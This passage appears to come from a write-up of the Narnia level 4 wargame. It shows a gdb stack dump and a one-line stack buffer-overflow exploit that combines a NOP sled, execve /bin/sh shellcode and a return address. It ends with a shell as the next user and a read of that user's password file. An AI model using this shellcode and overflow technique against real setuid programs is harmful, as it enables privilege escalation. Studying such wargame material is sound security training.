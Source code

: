 0xffffd760:	0x00000000	0x00000000	0x9e000000	0x9213cb6c
0xffffd770:	0x8eef41b1	0xe0574cc7	0x69a73659	0x00363836
0xffffd780:	0x00000000	0x00000000	0x00000000	0x2f000000
0xffffd790:	0x656d6167	0x616e2f73	0x61696e72	0x72616e2f
0xffffd7a0:	0x3461696e	0x61616100	0x61616161	0x61616161
0xffffd7b0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7c0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7d0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7e0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7f0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd800:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd810:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd820:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd830:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd840:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd850:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd860:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd870:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd880:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd890:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd8a0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd8b0:	0x61616161	0x62626261	0x00000062	0x00000000
0xffffd8c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd8d0:	0x00000000	0x00000000	0x00000000	0x00000000
{% endhighlight %}

Our input starts at around *0xffffd7a8* so let's get going writing our payload.
Create a nopsled that is *272 - 25* bytes long, follow that with the
the same shellcode as before, and finish with an address that sits comfortably
in the sled. You normally need to play with the address a bit, as the offsets
inside *gdb* are a bit different.

{% highlight console %}
narnia4@melinda:/narnia$ ./narnia4 `python -c "print '\x90'*(272-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x30\xd8\xff\xff'"`
$ whoami
narnia5
$ cat /etc/narnia_pass/narnia5
[password]
{% endhighlight %}

